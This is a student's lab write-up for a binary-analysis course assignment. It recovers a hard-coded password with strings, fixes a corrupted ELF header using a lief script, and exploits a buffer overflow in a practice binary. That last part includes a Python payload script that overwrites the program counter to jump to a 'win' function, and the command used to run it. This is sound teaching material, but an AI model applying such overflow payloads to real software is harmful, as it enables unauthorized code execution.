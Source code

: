 # MP1: Basic Analysis
### Completed by: Noah Lee

This assignment is designed to get you more experience with basic analysis of
embedded binaries.  Submit your answers as a pdf to moodle assignment page (if
you'd like, you can use pandoc to convert a markdown file to pdf).  This
assingment should be completed idividually.

## pass (5 points)

Answer the following questions using only `strings`, `objdump`, `readelf`, and `nm`.

1. What C standard library functions does the program use?

This program has many uses of the LIBC standard C library. This includes the usage of functions such as strcmp, fgets, puts, stdin, strtok, and abort.
2. This program requires a password to execute, what is that password and
  how did you find it? 

The password to the program was "hunter2"
I found this very easily by finding all the string values of the program using ` strings pass > ./Pass/strings.txt ` and looking at the strings outputted. This lead me to a very convenient string of "hunter2" after it prompts for the password. 
  

## badelf2 (10 points)

Everyone's favorite in-class activity is back - as homework.  Get this badelf to run and describe your changes (binary editing, include the script if you used python, etc...). This one is statically linked, so all you need is `qemu-arm badelf2`

Hint: there were two changes made to the ELF header.

There were two main problems with this: 

##### endianness: 
The badelf2 header indicated that the data was encoded using 2's complement w/ big endian. This was an issue as most arm programs are little endian, including all our previous binaries
##### architecture: 
When trying to run the program using qemu-arm, it would give an error "Invalid ELF image for this architecture" While the header was mostly correct, I started to look at things in lief documentation https://lief-project.github.io/doc/latest/api/python/elf.html . Particurally I saw that the header_size was set to 64, when it should be 40 for ELF32.

The python script used is as follows \
```
import lief
#ELF
binary = lief.parse("/share/mp1/badElf2/badelf2")
header = binary.header
#change the program header size
header.header_size = 0x34
header.identity_data = lief.ELF.ELF_DATA.LSB
binary.write('goodelf')
```
## overflow_me (20 points)

Answer the following questions using `strings`, `objdump`, `readelf`, `gdb`, `cyclic`, and `nm`.  For part 2, feel free to use a python script.

1. This program has a very basic buffer overflow vulnerability.  What is the
  vulnerability and how did you find it?  Refer to specific program output.
I began with first finding the optimal breakpoints. \
I did a `info functions` to get the accessable functions and set a `b vulnerable_function` as well as going through each instruction using `ni` \
From this, and putting in the large buffer of '123456789 112233445566778899' \
This is what I saw after running address 0x10478
![image](https://github.com/Navelwriter/CSSE490-Docker/assets/77686570/900d9a7d-2f8a-44ab-8bc3-06e1839498b7) \
With pc reflecting the input starting 20 characters after the beginning, it was clear that PC was getting overridden by the 4 bits following 20 characters ("6677")
With the buffer overflow even reaching the program counter, this means that we can potentially override PC with the address of any function we would want to execute.

3. What input will make the program execute the `win` function?  How did you
  find what that input should be?
Given the information about the input payload, there were a few parameters.
  - It takes 20 characters for PC to be overwritten
  -  The function I need to go to is `win`, which was located in 0001048c using my objdump to get the address.
  -  I need to do some sort of python script in order to encode my address, not just send random characters.

My python script is as follows.
```
#!/usr/bin/env python
from struct import pack
import sys
def packbuff(addr, padding = 20):
    payload = b''
    payload += b'\x00' * padding
    payload += pack('<I', addr)
    return payload

#this function takes in the input from the command line and adds it to a buffer
def main():
    address = int(sys.argv[1],16)
    payload = packbuff(address)
    sys.stdout.buffer.write(payload)

if __name__ == "__main__":
    main()
```
My first iteration of this, I simply outputted it out using print(payload), this did not work as it was just outputting it as simple chars.
![image](https://github.com/Navelwriter/CSSE490-Docker/assets/77686570/166c772e-6cbe-4f6f-8c6d-3fc075931c7d)
I figured out I had to use stdout to get it to output in the encoded format I wanted.
After this I could simply pipe this script into the program using `python3 packBuff.py 0x1048c | qemu-arm -g 1234 -L /usr/arm-linux-gnueabi ./overflow_me`
and it outputs `You win!`

Some things you might find helpful for overflow_me:
* Try large inputs and see what happens to `pc`
* The `finish` command in gdb
* `p32` function from pwntools or `struct.pack` from python's `struct` module
* Be sure to understand the difference between outputting encoded strings and raw bytes
